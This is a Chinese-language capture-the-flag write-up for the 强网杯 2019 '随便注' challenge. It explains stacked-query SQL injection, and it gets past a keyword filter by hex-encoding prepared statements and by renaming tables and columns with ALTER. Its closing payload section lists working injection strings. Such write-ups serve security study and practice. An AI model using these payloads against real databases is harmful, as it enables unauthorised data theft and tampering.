





# 强网杯 2019

## 随便注

> *2021/07/15*

### 题目

本题可采用的是**预编译**和**对调名字**两种方法

进入界面，和上一道题基本相同



继续采用上到题的方案进行**堆叠查询**出**表名，列名**





继续联合查询，查询出过滤的关键字



可以发现`set`，`prepare`，`rename`，`alter`都没有被过滤，有两种方案

#### 预处理语句

> [MySQL的SQL预处理(Prepared)](https://www.cnblogs.com/geaozhang/p/9891338.html)

原理还是比较好理解的，主要是本题直接用`set`和`prepare`不行，因为有过滤



#### 对调名字

由上面的探测我们可以猜测出这里会查询出words表的data列的结果，也就是`select * from words where id = '';`

如果我们能将语句换成``select * from `1919810931114514` where flag = '';``那么就能得到flag了

> - `alter table user rename to users // 将表名从user改成users`
> - `alter table users change username name varchar(30) //将列名从username改为name`

我们可以先将`words`表改变为一个其他名字，然后将`1919810931114514`表命名为`words`表，在将`1919810931114514`表中原本的`flag`列改名为`id`列

### payload

```
?inject=1';show tables;
// return table name 1919810931114514
```

```
?inject=1';Set @sql=concat("s","elect user()");PREPARE sqla from @sql;EXECUTE sqla; // 拼接
?inject=1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare bme from @a;execute bme; //转化为16进制
// return flag
```

```
?inject=1';alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);
?inject=1' or '1'='1
//return flag
```

